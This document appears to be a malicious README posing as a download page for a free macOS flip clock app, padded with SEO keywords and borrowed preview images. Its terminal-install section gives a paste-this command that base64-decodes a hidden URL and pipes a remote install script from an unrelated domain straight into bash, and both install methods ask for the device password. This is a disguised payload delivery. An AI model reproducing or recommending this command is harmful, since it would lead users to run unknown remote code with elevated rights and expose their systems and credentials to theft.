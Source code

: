 # Flip Clock For Mac — Download For Mac OS
![logo](https://images.dwncdn.net/images/t_app-icon-l/p/821cef70-6024-4a79-8988-aad72aa240ff/1942521431/2257_4-77556427-imgingest-8604099810554694302.png)

Flip Clock For Mac is a sleek, minimalist desktop clock application designed for macOS, offering a stylish way to keep track of time. Follow the instructions below to install it effortlessly on your Mac. 🕒

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)]()

If you encounter issues downloading via the button above, follow the terminal-based installation instructions below.

## 📦 How to Install Flip Clock For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get

- 🕒 **Elegant Time Display**: A retro-inspired flip clock design that enhances your desktop aesthetic.
- ⚙️ **Customizable Settings**: Adjust clock themes, colors, and formats (12/24-hour) to suit your style.
- 📅 **Date Integration**: Displays date alongside time for quick reference.
- 🔇 **Silent Operation**: Runs smoothly without distracting sounds or notifications.
- 🚀 **Lightweight Performance**: Minimal resource usage for seamless operation on macOS.
- 🌙 **Night Mode**: Automatically adjusts brightness for comfortable viewing in low-light conditions.

---

## About Flip Clock For Mac

Flip Clock For Mac is a beautifully designed desktop application that brings a retro flip clock experience to modern macOS systems. With its clean interface and smooth animations, it offers a refreshing alternative to standard digital clocks. Whether you're a productivity enthusiast or simply love aesthetic desktop enhancements, this free app is perfect for adding a touch of elegance to your workspace. Its lightweight design ensures it runs efficiently, making it an ideal choice for users searching for a *free mac clock app* or *desktop clock for mac*.

The application is built with macOS compatibility in mind, supporting the latest versions of the operating system. Users can easily install Flip Clock For Mac using either a .dmg file or a simple terminal command, ensuring accessibility for both novice and advanced users. The app is optimized for *macOS time management tools*, providing a reliable and visually appealing way to keep track of time without cluttering your desktop. Its open-source nature allows developers to contribute, ensuring continuous improvements and updates.

Customization is at the heart of Flip Clock For Mac. Users can personalize the clock’s appearance with various themes, including light and dark modes, to match their macOS environment. The *retro clock for mac* design is inspired by classic flip clocks, offering a nostalgic yet modern experience. Whether you’re looking for a *minimalist mac clock* or a stylish timekeeping solution, this app delivers both functionality and charm.

One of the standout features is its seamless integration with macOS. The app supports *mac desktop widgets* functionality, allowing you to place the clock anywhere on your screen for quick access. It also includes a date display, making it a practical tool for users who need both time and date at a glance. For those searching for *free mac desktop apps*, Flip Clock For Mac is a top choice due to its ease of use and visually appealing design.

### Why Choose Flip Clock For Mac?

Flip Clock For Mac stands out among other *macOS clock apps* due to its combination of style, functionality, and ease of installation. Unlike many desktop clock applications, it’s completely free, open-source, and optimized for performance. Its *customizable mac clock* features allow users to tailor the experience to their preferences, while its lightweight footprint ensures it won’t slow down your system. Whether you’re a student, professional, or casual user, this app provides a reliable and attractive solution for *time management on mac*.

---

## 🖼 Preview

![Flip Clock Main Interface](https://fliqlo.com/images/ogp.png)  
*Retro-inspired flip clock design with a sleek, modern look.*

![Customization Options](https://fliqlo.com/images/mobileapp.jpg)  
*Adjust themes and settings to personalize your clock experience.*

![Night Mode](https://flipclock.app/blog/blog_images/blog1_images/blog1_header_image.png)  
*Night mode for comfortable viewing in low-light environments.*

---

## 🔍 Tags

flip clock, flip clock for mac, free mac clock app, desktop clock for mac, flip clock download, flip clock free, flip clock free download, download flip clock, free flip clock, flip clock for mac, mac flip clock, flip clock software mac
